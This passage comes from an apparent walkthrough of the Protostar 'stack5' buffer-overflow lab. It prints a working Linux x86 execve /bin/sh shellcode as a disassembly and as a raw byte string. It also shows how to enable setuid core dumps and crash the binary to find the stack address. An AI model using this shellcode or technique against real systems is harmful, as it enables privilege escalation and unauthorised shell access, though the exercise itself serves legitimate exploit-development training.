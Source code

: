 For the byte code:

```cobjdump
objdump -d linux_x86_execve_sh_21.o

linux_x86_execve_sh_21.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	6a 0b                	push   $0xb
   2:	58                   	pop    %eax
   3:	99                   	cltd   
   4:	31 c9                	xor    %ecx,%ecx
   6:	52                   	push   %edx
   7:	68 2f 2f 73 68       	push   $0x68732f2f
   c:	68 2f 62 69 6e       	push   $0x6e69622f
  11:	89 e3                	mov    %esp,%ebx
  13:	cd 80                	int    $0x80
```

and our raw shellcode:

```
\x6a\x0b\x58\x99\x31\xc9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

Now, let's determine the address of our buffer on the stack. GDB isn't great for
this as it modifies the stack, so we'll create a core dump by causing the
program to crash, and then using GDB to analyse this core dump, we'll be able
determine the stack location (without modification by GDB).

First let's enable core dumps. Let's see where they will be generated:

```sh
user@protostar:/opt/protostar/bin$ cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
```

and ensure they can be dumped:

```sh
root@protostar:/home/user# cat /proc/sys/fs/suid_dumpable
0
root@protostar:/home/user# echo "1" > /proc/sys/fs/suid_dumpable
root@protostar:/home/user# cat /proc/sys/fs/suid_dumpable
1
```

Perfect. Now let's enable them and generate our core dump!

```sh
user@protostar:/opt/protostar/bin$ ulimit -c unlimited
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 100" | ./stack5
Segmentation fault (core dumped)
user@protostar:/opt/protostar/bin$ ls /tmp/
core.11.stack5.1927
```
